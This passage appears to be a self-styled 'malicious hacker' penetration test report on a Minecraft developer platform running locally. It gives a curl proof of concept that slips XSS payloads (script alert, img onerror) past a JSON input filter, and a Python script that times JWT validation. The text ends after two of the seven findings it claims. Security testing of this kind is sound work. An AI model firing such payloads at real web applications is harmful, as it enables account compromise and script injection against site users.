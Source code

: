 # 💀 MALICIOUS HACKER PENETRATION TEST REPORT

## 🎯 EXECUTIVE SUMMARY

**Target**: Minecraft Development Bible (MDB) Platform  
**Test Date**: January 13, 2025  
**Methodology**: Black-box and White-box Testing  
**Tester**: Malicious Security Researcher  

**CRITICAL FINDINGS**: 7 High-Risk Vulnerabilities Discovered  
**EXPLOITABILITY**: Multiple attack vectors identified for complete system compromise  

---

## 🔥 CRITICAL VULNERABILITIES DISCOVERED

### 1. **JSON PAYLOAD INJECTION BYPASS** - SEVERITY: HIGH
**Attack Vector**: Input validation filter only checks parameters/headers, not JSON request bodies  
**Location**: `InputValidationConfig.java` - Missing JSON body validation  

**Proof of Concept**:
```bash
curl -X POST http://localhost:8080/api/forums/threads \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [TOKEN]" \
  -d '{
    "title": "Normal Title",
    "content": "<script>alert(\"XSS\")</script><img src=x onerror=alert(1)>",
    "category": "general"
  }'
```

**Impact**: XSS attacks, HTML injection, potential RCE through malicious payloads  
**Exploitation**: Bypass all input validation by sending malicious content in JSON bodies  

### 2. **TIMING ATTACK ON JWT VALIDATION** - SEVERITY: HIGH
**Attack Vector**: JWT validation uses string comparison vulnerable to timing attacks  
**Location**: `JwtService.java:validateToken()` method  

**Proof of Concept**:
```python
import requests
import time

def timing_attack():
    base_url = "http://localhost:8080/api/auth/me"
    
    # Measure response times for different token lengths
    for length in range(1, 100):
        fake_token = "A" * length
        start = time.time()
        requests.get(base_url, headers={"Authorization": f"Bearer {fake_token}"})
        elapsed = time.time() - start
        print(f"Length {length}: {elapsed}s")
```
